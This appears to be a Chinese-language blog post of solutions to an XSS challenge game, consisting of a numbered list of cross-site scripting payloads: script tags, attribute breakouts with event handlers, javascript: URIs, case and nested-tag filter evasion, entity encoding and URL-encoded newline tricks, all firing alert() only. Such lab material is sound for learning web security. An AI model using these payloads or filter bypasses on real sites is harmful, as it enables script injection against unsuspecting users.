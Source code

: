 ```yaml
---
layout: post
title: xss的语句
category: 
  - web安全
tags: 
  - xss 
  - web安全
abbrlink: 3180077102
date: 2018-10-05 00:00:00
---
```

这是一个xss的闯关游戏  

[下载链接:](https://pan.baidu.com/s/1bqtFVGrc4TlihuWT2TBxtQ)  
提取码: isre  

xss的语句

	1
	<script>alert(/xss/)</script>
	2
	"><script>alert(/xss/)</script>

	3

	'onmouseover='alert(/xss/)'

	4
	" oninput=alert`xss`//
	" onfocus=alert`xss` autofocus= "
	" onchange=alert`xss` "


	<img src=x onerror=alert(/xss/)>

	5

	"><a href=javascript:alert(/xss/)>

	6
	"><A HREF=javascript:alert(/xss/)>

	7
	"><scrscriptipt>alert(/xss/)</scscriptript>

	8
	html 字符实体编码转换
	java&#x73;cript:alert(1)

	9
	java&#x73;cript:alert(1)/*http://*/

	10
	&t_sort=a" onclick="alert(1)"

	15
	urlencode
	%0a%0d
	<img%0asrc=xx%0aonerror=alert(/xss/)>

## LINKS

[xss_payload](http://html5sec.org/#html5)

